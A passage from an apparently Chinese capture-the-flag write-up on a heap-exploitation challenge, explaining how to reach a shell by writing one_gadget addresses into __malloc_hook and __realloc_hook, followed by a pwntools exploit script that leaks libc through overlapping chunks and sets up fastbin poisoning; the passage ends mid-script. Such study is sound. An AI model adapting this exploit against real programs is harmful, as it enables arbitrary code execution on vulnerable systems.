 然后，我们可以在__malloc_hook中写入one_gadget的地址。但经过测试发现，能够使用的4个one_gadget都不能让我们获得shell。通过one_gadget打印出来的地址可以知道，这些one_gadget想要执行是有一定条件的，如栈上某个地址需要为0，rax为0等等。如果直接将one_gadget写入__malloc_hook不行，可以考虑将one_gadget写到__realloc_hook中，在__malloc_hook中写realloc函数中的地址，注意我们想要修改栈的环境，需要写realloc+4的地址，这样可以避免执行push rbp; mov rbp, rsp这两条指令，从而产生8字节的错位。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
io = process('./pwn')
# io = remote('node4.buuoj.cn', 25959)
elf = ELF('./pwn')
# one_gadgets = [0x3f4b6, 0x3f50a, 0xd5a27]
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
# one_gadgets = [0x45206, 0x4525a, 0xef9f4, 0xf0897]
# one_gadgets = [0x3f4a6, 0x3f4fa, 0xd5b87]

def create_note(size):
    io.sendlineafter(b'choice: ', b'1')
    io.sendlineafter(b'size: ', str(size).encode())

def write_note(index, size, content):
    io.sendlineafter(b'choice: ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendlineafter(b'size: ', str(size).encode())
    io.sendafter(b'content: ', content)

def drop_note(index):
    io.sendlineafter(b'choice: ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())

def show_note(index):
    io.sendlineafter(b'choice: ', b'4')
    io.sendlineafter(b'index: ', str(index).encode())

create_note(0x48)   # chunk_info #0
create_note(0x48)   # chunk_info #1
create_note(0x88)   # chunk_info #2

create_note(0x18)   # chunk_info #3
create_note(0x18)   # chunk_info #4
create_note(0x68)   # chunk_info #5

create_note(0x18)   # chunk_info #6
write_note(0, 0x48+10, cyclic(0x48) + b'\xE1')
drop_note(1)
create_note(0x48)   # chunk_info #1
show_note(2)
io.recvuntil(b'content: ')
main_arena = u64(io.recv(8)) - 88
print(hex(main_arena))
__malloc_hook = main_arena - 0x10
libc = LibcSearcher("__malloc_hook", __malloc_hook)
base = __malloc_hook - libc.dump('__malloc_hook')
__free_hook = base + libc.dump('__free_hook')
realloc = base + libc.dump('realloc')
create_note(0x88)   # chunk_info #7, same addr as #2
write_note(3, 0x18+10, cyclic(0x18) + b'\x91')
drop_note(4)
create_note(0x88)   # chunk_info #4, overlap #5
write_note(4, 0x88, (b'\x00' * 0x10 + p64(0x20) + p64(0x71)).ljust(0x88, b'\x00'))
drop_note(5)
write_note(4, 0x88, (b'\x00' * 0x10 + p64(0x20) + p64(0x71) + p64(__malloc_hook - 0x23)).ljust(0x88, b'\x00'))
```